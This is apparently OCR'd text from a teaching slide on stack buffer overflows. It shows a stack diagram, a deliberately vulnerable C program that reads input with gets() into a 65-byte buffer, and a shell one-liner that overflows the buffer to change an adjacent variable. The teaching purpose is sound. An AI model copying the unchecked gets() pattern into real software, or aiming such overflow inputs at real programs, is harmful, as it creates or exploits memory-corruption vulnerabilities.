

Exa[si]mple .. I

count	            **argv
Return Address
Previous SP
variable
65 bytes
buffer
int main(int count,char **argv)
{
	int variable=0;
	char buffer[65];

	gets(buffer);

	if(variable != 0)
		printf(“Variable Was Changed”);
	else
		printf(“Unchanged”);

	return 0
}
LOW
HIGH

………..
49
‘\0’
A
A
A
A
A
A
echo -e `python -c “print ‘A’*65 + ‘1’ ” ` |  ./a.out